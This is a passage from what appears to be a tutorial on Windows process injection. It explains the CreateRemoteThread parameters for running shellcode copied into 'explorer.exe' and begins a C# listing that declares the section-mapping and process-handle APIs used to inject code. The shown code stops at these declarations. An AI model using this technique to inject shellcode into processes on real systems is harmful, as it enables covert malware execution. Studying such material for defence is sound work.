 - `pHandle`: Process handle 
- `lpThreadAttributes`: the desired security descriptor of the new thread
- `dwStackSize`: set these to "0" to accept the default values
- `lpStartAddress`: specify the starting address of the thread. In this case, it must be equal to the address of the buffer allocated and copied shellcode into inside the "explorer.exe" process
- `lpParameter`: is a pointer to variables which will be passed to the thread function pointed to by "lpStartAddress". Since shellcode does not need any parameters => pass a NULL here.
- `dwCreationFlags`: ignore
- `lpThreadId`: ignore

### Final code

```cs
using System;
using System.Diagnostics;
using System.Linq;
using System.Runtime.InteropServices;

namespace RemoteShinjectLowlevel
{
    class Program
    {
        // FOR DEBUGGING
        [DllImport("kernel32.dll")]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("msvcrt.dll", CallingConvention = CallingConvention.Cdecl)]
        static extern int memcmp(byte[] b1, byte[] b2, long count);

        static bool ByteArrayCompare(byte[] b1, byte[] b2)
        {
            return b1.Length == b2.Length && memcmp(b1, b2, b1.Length) == 0;
        }
        // END DEBUGGING

        public const uint ProcessAllFlags = 0x001F0FFF;
        public const uint GenericAll = 0x10000000;
        public const uint PageReadWrite = 0x04;
        public const uint PageReadExecute = 0x20;
        public const uint PageReadWriteExecute = 0x40;
        public const uint SecCommit = 0x08000000;

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, UInt32 DesiredAccess, IntPtr ObjectAttributes, ref UInt32 MaximumSize, UInt32 SectionPageProtection, UInt32 AllocationAttributes, IntPtr FileHandle);

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtMapViewOfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, IntPtr ZeroBits, IntPtr CommitSize,
            out ulong SectionOffset, out uint ViewSize, uint InheritDisposition, uint AllocationType, uint Win32Protect);

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtUnmapViewOfSection(IntPtr hProc, IntPtr baseAddr);

        [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
        static extern int NtClose(IntPtr hObject);

```